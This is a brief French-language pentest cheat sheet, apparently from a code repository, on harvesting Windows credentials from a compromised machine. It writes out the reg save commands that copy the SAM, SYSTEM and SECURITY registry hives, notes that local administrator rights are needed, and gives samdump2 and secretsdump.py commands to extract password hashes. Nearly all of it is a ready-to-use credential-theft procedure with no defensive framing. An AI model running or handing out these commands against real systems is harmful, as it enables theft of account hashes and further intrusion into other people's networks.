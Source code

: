 # Base SAM

## Récupérer la base SAM

En PowerShell sur une machine compromise, il faut exécuter les commandes suivantes :

```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

_Note : les droits "administrateur local" sont requis._

## Extraire les _hashs_

```
samdump2 system sam
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL # Fonctionne pour W10 et W11
```
